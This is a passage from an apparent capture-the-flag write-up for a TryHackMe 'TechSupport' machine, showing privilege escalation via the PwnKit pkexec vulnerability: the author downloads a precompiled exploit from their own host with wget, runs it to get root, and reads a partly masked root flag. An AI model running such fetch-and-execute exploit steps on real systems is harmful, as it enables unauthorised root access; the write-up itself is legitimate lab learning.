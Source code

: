 The exploit takes advantage of a memory corruption vulnerability in the pkexec binary to inject an environment variable at runtime which can load and execute code from a malicious .so file. <br>
I had already learned about and played with [the exploit](https://tryhackme.com/room/pwnkit) before, so I decided to try it out on this server. <br>

> `www-data@TechSupport$ which gcc` <br>
> *nothing* <br>

There was no gcc installed, so I'd need to use precompiled binaries instead to preform this exploit. <br>
```
www-data@TechSupport$ wget http://myIP/pwnKit.zip
www-data@TechSupport$ unzip pwnKit.zip
www-data@TechSupport$ chmod +x pwnExploit
www-data@TechSupport$ ./pwnExploit
```

> `# id` <br>
> uid=0(root)

![polkit "pwnKit" Exploit in action](https://i.imgur.com/jIzNISi.png)


Now that I had root, I could retrieve the root.txt flag: <br>

`# cat /root/root.txt` <br>

> Answer: 851b8233a8c09400e***********************

---


